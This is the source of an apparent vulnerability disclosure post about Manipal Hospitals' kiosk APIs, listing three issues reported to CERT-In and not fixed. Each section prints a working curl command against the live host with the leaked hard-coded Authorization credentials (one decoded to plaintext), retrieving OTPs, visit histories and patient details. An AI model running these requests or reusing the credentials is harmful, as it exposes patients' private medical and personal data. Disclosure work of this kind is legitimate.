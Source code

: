```yaml
---
title: Manipal Hospitals pvt ltd vulnerability 2024
date:
  created: 2025-08-14
  updated: 2025-09-12
---
```


<br>
The Manipal hospital pvt ltd has a mandatory registration process on its kiosk <https://kiosk.manipalhospitals.com>
for OPD consultations.
The portal collects a lot of information within minutes but the same personal data deletion takes 3-4 months.

The portal had numerous vulnerabilities that allowed access to the user's personal data in a serial manner. One API provided the login OTP back to the person logging-in, defeating its whole point. In others, data was flimsyly "protected" just by a static `Authorization` header exposed in the front-end code.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [KioskOtpVerification](#1-kioskotpverification) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |
| 2  | [PatientVisitHistory](#2-patientvisithistory) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |
| 3  | [PatDetailsByMobileNo](#3-patdetailsbymobileno) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A02 2021 Cryptographic Failures: CWE-321 Use of Hard-coded Cryptographic Key
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. KioskOtpVerification

This API is used to send an OTP to the given phone number. This API defeated
the point of OTP verification by sending back the OTP in the API response.

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl -v 'https://kiosk.manipalhospitals.com/ManipalKioskApi/api/OTP/KioskOtpVerification' -X POST -H \
'Authorization: Basic RW1wdWxzZURldjprXzNHNVtrKjF9NkBpMic=' \
--data-raw '{"mobileNumber":"91$$$$$$$$$$","hospitalCode":"MHJ"}' \
-o otp_exposed_$timest.json
```

???+ note "Sample Response"
    ```json linenums="1" hl_lines="3"
    ---8<--- "docs/vuln/posts/content_manipal/manipal_vuln_1.json"
    ```

### 2. PatientVisitHistory

This endpoint allowed serial access (increasing UHID) to a patient's visit history by relying on
a static `Authorization` header.

The header can be decoded to the following

```bash
echo RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF | base64 -d
EmpulseHIS:')3Qc=40I;<7HtWE
```

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl 'https://kiosk.manipalhospitals.com/ManipalDataSync/PatientVisitHistory' -X POST -H \
'Authorization: Basic RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF' \
--data-raw '{"UHID":"MHXXXXXXXX7^01/01/2020^27/12/2024","hospitalCode":"MHB"}'  \
-o pat_vis_his_$timest.json
```

<details>
<summary>Sample Response</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_manipal/manipal_vuln_2.json"
```
</details>

### 3. PatDetailsByMobileNo

This API accepted a phone number and provided the patient details like name, dob, email, gender etc.

The `Authorization` header is the same as in the above vulnerability.

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl -v 'https://kiosk.manipalhospitals.com/ManipalDataSync/PatDetailsByMobileNo' -X POST -H \
'Authorization: Basic RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF' \
 --data-raw '{"mobileno":"$$$$$$$$$$","locationCode":"MHJ"}' \
-o get_pat_by_mob_$timest.json
```

???+ note "Sample Response"
    ```json linenums="1"
    {
        "ErrorMessage": "null",
        "Message": "SUCCESS",
        "Status": "SUCCESS",
        "PatDetailResp": [
            {
            "Status": "Success",
            "Message": "Success",
            "HospNo": "MH$$$$$$$$7",
            "PatientName": "MR $$$$$$$$ ",
            "DOB": "$$/$$/$$$$",
            "Age": "$$ Yrs",
            "Sex": "$$$$$$$$",
            "MobileNo": "$$$$$$$$$$",
            "Email": "$$$$$$$$@$$$$$.$$$"
            }
        ]
    }
    ```
